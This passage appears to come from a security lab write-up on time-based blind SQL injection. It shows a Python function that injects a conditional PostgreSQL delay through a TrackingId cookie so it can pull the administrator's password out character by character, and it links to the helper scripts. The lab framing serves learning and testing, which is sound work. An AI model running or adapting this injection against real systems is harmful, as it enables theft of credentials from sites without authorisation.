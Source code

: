 ```python
  return success

def password_search_handler(val, op, pos):
  sql_passwd_inj = "SUBSTR((SELECT password FROM users WHERE username = 'administrator'), {}, 1) {} '{}'".format(pos, op, val)
  sql = helper.sqli_cond_timeout(sql_passwd_inj, 'PostgreSQL', TIMEOUT)
  req.inject('cookie', 'TrackingId', sql)
  resp = req.get()
  if not resp.status_code in [200, 500]:
    print(f"HTTP Request failed with code {resp.status_code}")
    exit(1)

  success = resp.elapsed.seconds in range(TIMEOUT - 2, TIMEOUT + 2)
  
  return success
```

Note: _the __\_\_main\_\___ code incorporating the password length and character iteration logic remains the same_

Full source code:

- [scripts/helper.py](scripts/helper.py)
- [scripts/blind_sqli_cond_timeout.py](scripts/blind_sqli_cond_timeout.py)

